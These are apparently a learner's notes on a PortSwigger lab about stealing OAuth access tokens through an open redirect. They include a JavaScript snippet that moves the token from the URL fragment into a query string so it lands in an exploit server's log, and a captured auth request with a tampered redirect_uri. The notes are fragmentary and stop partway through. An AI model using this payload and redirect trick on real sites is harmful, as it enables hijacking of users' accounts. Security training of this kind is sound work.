 

Since we don’t have a attack server available we can use the following 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/276e528f-7bb2-48e9-a473-d5e48dc5696c)


Will open redirect you to the post 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/b1f6bf4b-6dd6-4d8f-9c1b-31b97449c428)


On our exploit server
, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead: 

From <https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect> 


```
<script> window.location = '/?'+document.location.hash.substr(1) </script>
```

From <https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect> 

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/38b792ce-428e-4a20-bfaa-39882da70a6f)




Log out and intercept the till you get a redirect uri and replace that uri with our exploit server

```
GET /auth?client_id=vxn9jlxsyf55ruju00ocn&redirect_uri=https://0a43008e041914c5811007e300e600c7.web-security-academy.net/oauth-callback/../next?path=https://0a43008e041914c5811007e300e600c7.web-security-academy.net/&response_type=token&nonce=-1747867307&scope=openid%20profile%20email HTTP/2
Host: oauth-0ae700ab04661448816b055402e800c5.oauth-server.net
Cookie: _session=JyYNg3oYi-9D3s4OKTPru; _session.legacy=JyYNg3oYi-9D3s4OKTPru
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://0a43008e041914c5811007e300e600c7.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```

This will just take us to that url 
What we want is the access token


